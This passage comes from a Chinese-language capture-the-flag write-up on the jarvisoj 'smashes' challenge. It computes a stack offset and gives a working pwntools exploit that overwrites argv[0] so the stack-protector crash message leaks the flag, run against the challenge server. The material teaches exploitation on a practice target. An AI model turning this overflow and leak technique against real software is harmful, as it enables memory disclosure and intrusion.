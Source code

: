 可以看出rsp的值为0x7fffffffda40，那么相对偏移为

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我们构造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
sh.sendline('bb')
data = sh.recv()
sh.interactive()
```

这里我们直接就得到了 flag，没有出现网上说的得不到 flag 的情况。

### 题目

